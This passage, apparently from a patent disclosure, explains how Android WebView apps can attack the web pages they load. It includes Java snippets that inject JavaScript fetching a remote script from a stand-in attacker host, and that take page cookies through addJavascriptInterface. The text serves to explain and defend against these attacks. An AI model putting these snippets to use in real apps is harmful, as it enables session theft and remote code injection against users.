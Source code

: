 However the design of WebView also changes the landscape of the Web especially from the security perspective. As a result many attacks can be launched either against apps or by them. The Web s security infrastructure can be weakened when a WebView and its Application Programming Interfaces APIs are used because WebView does not have security related identity indicators. In other words users often cannot identify whether a link has taken them to the expected web page or web application. Thus when a user is accessing web content through WebView and the web page asks the user for confidential information such as username password or credit card number the confidential information entered by the user will be vulnerable to spoofing and phishing attacks. Attackers can spoof users using illegitimate applications with high accuracy meaning that there is high risk of phishing attacks on mobile platforms. There are several ways to launch attacks on WebView or content in a mobile application. An explanation of why and how attacks can take place on WebView or content in a mobile application please see http www.cis.syr.edu wedu Research paper webview acsac2011.pdf which is incorporated herein by reference. As an example the present disclosure and referenced article show how using the functionalities provided by WebView an app can directly inject its own JavaScript code into any web page loaded within the WebView. This code can manipulate everything in the web page as well as steal or misuse its sensitive information. Using WebView s loadUrl API Android application can inject arbitrary JavaScript code into the pages loaded by the WebView component. The loadUrl API receives an argument of string type if the string starts with javascript WebView will treat the entire string as JavaScript code and execute it in the context of the web page that is currently displayed by the WebView component. This JavaScript code has the same privileges as that included in the web page. Essentially the injected JavaScript code can manipulate the DOM tree and cookies of the page. WebView has an option named javascriptenable with False being its default value namely by default WebView does not execute any JavaScript code. However this option can be easily set to True by the application and after that JavaScript code embedded in the web page or injected by the application can be executed. There are many ways to inject JavaScript code into web page using loadUrl . We give two examples here to illustrate the details.

The following Java code constructs a string that contains a short JavaScript program the program is injected into the web page loaded by WebView. When this program is executed in the context of the web page it fetches additional malicious code from an external web server and executes it.

String js javascript var newscript document.createElement script js newscript.src http www.attack.com malicious.js js document.body.appendChild newscript mWebView.loadUrl js 

In the above example the malicious code malicious.js can launch attacks on the targeted web application from within the web page. For example if the web page is the user s Facebook page the injected JavaScript code can delete the user s friends post on his her friends walls modify the user s profiles etc. Obviously if the application is developed by Facebook none of these will happen but some popular Facebook apps for Android phones are indeed developed by third parties.

Extracting Information From WebView. In addition to manipulating the contents cookies of the web page the malicious application can also ask its injected JavaScript code to send out sensitive information from the page. The following example shows how an Android application extracts the cookie information from a targeted web page.

class MyJS public void SendSecret String secret . . . do whatever you want with the secret . . . webview.addJavascriptInterface new MyJS JsShow webview.setWebViewClient new WebViewClient public void onPageFinished WebView view String url view.loadUrl javascript window.JsShow.SendSecret document.cookie 

In the Java code above the malicious application defines a class called MyJS with a function SendSecret which receives a string as the parameter. The program then registers an instance of MyJS to WebView. On finishing loading the page the application using loadUrl invokes window.JsShow.SendSecret passing as the parameter whatever sensitive information the attacker wants to extract out of page. In this case the cookie information is sent out.
